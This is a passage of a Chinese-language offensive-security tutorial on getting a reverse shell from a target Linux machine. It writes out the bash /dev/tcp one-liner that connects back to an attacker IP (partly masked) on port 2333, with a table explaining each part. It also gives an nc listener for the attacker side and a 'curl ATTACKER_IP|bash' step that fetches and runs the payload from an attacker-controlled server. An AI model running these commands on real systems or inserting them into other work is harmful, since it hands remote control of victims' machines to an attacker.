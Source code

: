![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicPCSxBYRgycqDoMnsAyQ3NpC0edd7BvBGghaWzQaZBicAw9YNib1prMZalUibIIDGPa7zvkCEkoV3RA/640?wx_fmt=png)image-20210127192540228

利用 Bash 反弹 shell
----------------

个人感觉反弹 shell 最好用的方法就是使用 bash 结合重定向方法的一句话，具体命令如下：

```
bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1或bash -c "bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1"# bash -i >& /dev/tcp/攻击机IP/攻击机端口 0>&1
```

> 以下是针对 Bash 反弹一句话进行了拆分说明：
> 
> <table><thead><tr><td>命令</td><td>命令详解</td></tr></thead><tbody><tr><td>bash -i</td><td>产生一个 bash 交互环境。</td></tr><tr><td>&gt;&amp;</td><td>将联合符号前面的内容与后面相结合，然后一起重定向给后者。</td></tr><tr><td>/dev/tcp/47.xxx.xxx.72/2333</td><td>Linux 环境中所有的内容都是以文件的形式存在的，其实大家一看见这个内容就能明白，就是让目标主机与攻击机 47.xxx.xxx.72 的 2333 端口建立一个 tcp 连接。</td></tr><tr><td>0&gt;&amp;1</td><td>将标准输入与标准输出的内容相结合，然后重定向给前面标准输出的内容。</td></tr></tbody></table>
> 
> Bash 反弹一句完整的解读过程就是：
> 
> Bash 产生了一个交互环境和本地主机主动发起与攻击机 2333 端口建立的连接（即 TCP 2333 会话连接）相结合，然后在重定向个 TCP 2333 会话连接，最后将用户键盘输入与用户标准输出相结合再次重定向给一个标准的输出，即得到一个 Bash 反弹环境。

**攻击机开启本地监听：**

```
nc -lvvp 2333
```

**目标机主动连接攻击机：**

```
bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1
```

执行效果如下：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicPCSxBYRgycqDoMnsAyQ3N9frWKjg30v5PWAiaSUqenbE5HPn8RrEgwjQUBibbzjhia4UaCVHSefz3A/640?wx_fmt=png)

### Curl 配合 Bash 反弹 shell

这里操作也很简单，借助了 Linux 中的管道。

首先，在攻击者 vps 的 web 目录里面创建一个 index 文件（index.php 或 index.html），内容如下：

```
bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1
```

并开启 2333 端口的监听。

然后再目标机上执行如下，即可反弹 shell：

```
curl 47.xxx.xxx.72|bash
```
